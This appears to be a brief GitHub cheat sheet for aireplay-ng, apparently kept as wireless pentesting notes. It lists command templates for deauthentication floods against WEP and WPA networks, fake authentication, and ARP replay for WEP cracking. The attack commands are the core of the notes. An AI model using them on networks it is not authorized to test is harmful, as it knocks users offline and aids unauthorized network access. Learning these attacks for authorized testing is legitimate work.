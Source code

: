 # aireplay-ng

> [Official page](https://www.aircrack-ng.org/doku.php?id=aireplay-ng)

## Deauthentication Attack

* Works on encrypted networks (WEP, WPA & WPA2).
* No need to know network's key or connect to the network.

Try the following command with `PACKET_AMOUNT = 10000000`.

```
aireplay-ng --deauth <PACKET_AMOUNT> -a <TARGET_NETWORK_BSSID> -c <TARGET_STATION/CLIENT_MAC> <MONITOR_IF>
```

If the command fails, run `airodump-ng` along with it, to sniff network with the `--target` flag.

## Fake Authentication

1. Sniff packets
2. Use fake auth to associate with network and allow sending packets to network

```
aireplay-ng --fakeauth <REPS=0> -a <TARGET_MAC> -h <MY_INTERFACE_MAC> <MONITOR_INTERFACE_NAME>
```

## ARP Request Replay Attack

Replaying ARP packets causes the AP to produce another packet with a new IV, which is usefull for cracking WEP.

```
aireplay-ng --arpreplay -b <TARGET_MAC> -h <MY_INTERFACE_MAC> <MONITOR_INTERFACE_NAME> 
```
